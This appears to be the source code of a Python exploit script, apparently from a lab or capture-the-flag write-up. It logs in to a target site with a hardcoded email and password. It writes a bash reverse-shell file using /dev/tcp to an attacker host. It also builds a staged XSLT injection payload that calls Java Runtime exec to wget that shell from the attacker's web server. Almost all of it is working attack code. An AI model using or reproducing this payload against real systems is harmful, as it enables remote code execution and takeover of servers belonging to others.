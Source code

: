 ```py
  
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
    
# Let's login on the page
def loginSite(rhost):
    print("[+] Let's login!! [+]")
    url = "http://%s:9001/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"email": "elisa@wink.co.uk", "password": "Quick4cc3$$"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Looogged in !! [+]")
    
# Let's create the sh malicious file    
def createShellPayload(lhost,lport,nameshell):
    print("[+] Let's create our shell payload !! [+]")
    payload = "#!/bin/sh\n"
    payload += "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    h = open("%s" %nameshell, "w")
    h.write(payload)
    h.close()
    print("[+] Done, shell file created !! [+]")
    
# Let's create the staged files to get the reverse shell
def createPayload(lhost,nameone,nametwo,nameshell):
    print("[+] Let's create the malicious files to get reverse shell !! [+]")
    print("[+] %s is the shell file ! [+]" %nameshell)
    print("[+] %s is the stage one file ! [+]" %nameone)
    print("[+] %s is the stage two file ! [+]" %nametwo)
    # Create the reverse shell
    payload = '<?xml version="1.0" ?>\n'
    payload += '<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">\n'
    payload += '<xsl:output method="xml" omit-xml-declaration="yes"/>\n'
    payload += '<xsl:template match="/"\n'
    payload += 'xmlns:xsl="http://www.w3.org/1999/XSL/Transform"\n'
    payload += 'xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">\n'
    payload += '<root>\n'
    payload += '<xsl:variable name="cmd"><![CDATA[wget http://%s/%s -O /tmp/shell.sh]]></xsl:variable>\n' %(lhost,nameshell)
    payload += '<xsl:variable name="rtObj" select="rt:getRuntime()"/>\n'
    payload += '<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>\n'
    payload += 'Process: <xsl:value-of select="$process"/>\n'
    payload += 'Command: <xsl:value-of select="$cmd"/>\n'
    payload += '</root>\n'
    payload += '</xsl:template>\n'
    payload += '</xsl:stylesheet>\n'
    f = open("%s" %nameone, "a")
    f.write(payload)
    f.close()
```
